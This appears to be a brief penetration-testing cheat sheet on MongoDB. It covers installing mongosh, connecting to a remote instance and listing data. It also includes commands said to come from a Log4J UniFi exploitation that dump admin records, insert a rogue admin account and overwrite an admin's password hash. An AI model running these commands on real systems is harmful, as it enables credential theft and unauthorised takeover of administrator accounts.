 # MongoDB

## Shell connection
```
curl -O https://downloads.mongodb.com/compass/mongosh-2.3.2-linux-x64.tgz
tar xvf mongosh-2.3.2-linux-x64.tgz
cd mongosh-2.3.2-linux-x64/bin
./mongosh mongodb://<IP>:<PORT>
```
Afterwards we can issue commands
```
# List databases
show dbs;

# Select database
use <db name>;

# List collections
show collections;

# show data in collection
db.<collection name>.find()
db.<collection name>.find().pretty()
```

## Another way
Below is example from Log4J unifi exploitation
```
# Dump user data
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"

# Add new user
mongo --port 27117 ace --eval 'db.admin.insert({ "email" : "null@localhost.local", "last_site_name" : "default", "name" : "unifi-admin", "x_shadow" : "<PASSWORD-HASH>" })'

# Update user
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"<PASSWORD-HASH>"}})'
```
